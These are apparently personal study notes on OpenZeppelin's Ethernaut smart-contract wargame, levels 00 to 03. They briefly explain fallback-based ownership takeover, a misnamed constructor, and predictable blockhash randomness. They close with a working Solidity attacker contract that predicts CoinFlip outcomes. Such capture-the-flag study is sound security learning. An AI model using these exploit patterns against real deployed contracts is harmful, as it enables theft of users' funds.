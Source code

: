 # Ethernaut Notes

My Notes on [Ethernaut](https://ethernaut.openzeppelin.com) exercises.

# 00. Ethernaut

- Just go through the console.
- Check out all the ABIs.
- Password is inside a function as a variable.

# 01. FallBack

- Getting the various RPC functions like the one to send Transaction.
- Finding the diffrence between receive and fallback functions in solidity.
- Sending ether to contract thus changing the owner to msg.sender.

# 02. Fallout

- Read the code.
- Just Calling Fal1out function will make us the owner.

# 03. Coinflip

- Generating randomness inside a contract using globally available values or Hardcoded values is a Big NO.
- Everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private.
- Using an another contract attacker can hack that randomness.
- Here using Remix IDE we can call that contract inside an malicious contract using the same function we can crack the randomness.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Coinflip.sol";

contract CoinFlipAttack {

  CoinFlip public victim;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _victimAddress) {
    victim = CoinFlip(_victimAddress);
  }

  function flip() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    victim.flip(side);
    }
}
```
